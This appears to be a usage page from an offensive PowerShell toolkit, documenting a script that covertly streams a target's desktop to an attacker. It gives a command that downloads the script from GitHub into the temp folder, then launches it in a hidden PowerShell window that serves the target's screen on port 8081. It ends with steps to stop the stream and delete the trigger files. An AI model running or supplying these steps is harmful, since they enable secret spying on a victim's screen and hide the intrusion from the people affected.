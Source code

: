 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|[Stream-TargetDesktop](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1)|Stream target desktop live|User Land|Dependencies: firefox browser with MJPEG inatalled (attacker PC)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "$Env:TMP\Stream-TargetDesktop.ps1"
```

<br />

**execute:**
```powershell
#Build triggers script (remote)
echo "Import-Module -Name $Env:TMP\Stream-TargetDesktop.ps1 -Force"|Out-File -FilePath "$Env:TMP\trigger.ps1" -Encoding ascii -Force
Add-Content -Path "$Env:TMP\trigger.ps1" -Value "TargetScreen -Bind -Port 8081"


#Start capture desktop (remote)
Start-Process -WindowStyle hidden powershell -ArgumentList "-File $Env:TMP\trigger.ps1"

#Access live stream (attacker)
Start firefox on: "http://${RemoteHost}:8081"


#Stop stream (remote)
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|?{ $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp (remote)
Remove-Item -Path "$Env:TMP\trigger.ps1" -Force
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```
